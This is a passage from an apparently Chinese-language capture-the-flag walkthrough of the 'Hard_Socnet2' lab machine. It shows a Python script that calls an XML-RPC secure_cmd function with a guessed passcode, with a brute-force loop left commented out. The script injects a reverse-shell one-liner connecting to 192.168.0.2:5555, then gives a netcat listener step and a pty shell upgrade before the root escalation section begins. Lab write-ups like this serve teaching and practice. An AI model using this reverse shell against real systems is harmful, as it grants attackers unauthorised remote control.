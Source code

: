        结果如下：
       ![image-20240125150243238](Hard_Socnet2/image-20240125150243238.png)

6. 这下可以注入了，构造 Shell 代码：
       ```python
       import xmlrpc.client
       
       with xmlrpc.client.ServerProxy("http://192.168.0.100:8000/") as proxy:
           '''for i in range(9999):
               result = proxy.secure_cmd("id", i)
               if result != "Wrong passcode.":
                   print (i)
                   print(result)
                   break'''
           proxy.secure_cmd("""python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.2",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'""", 7129)
       ```

    NC 监听 5555 端口，成功获得 socnet 用户的 Shell：
       ![image-20240125150815427](Hard_Socnet2/image-20240125150815427.png)
    输入 `python -c "import pty; pty.spawn('/bin/bash')"` 以增加交互性（但是依旧不能执行 vim 等即时性操作)。

### 1.5 提权 - root - 溢出漏洞

1. 接下来，从 socnet 入手，先看看他有啥文件：
       ```bash
       cd /home/socnet
       ls -l
       ```
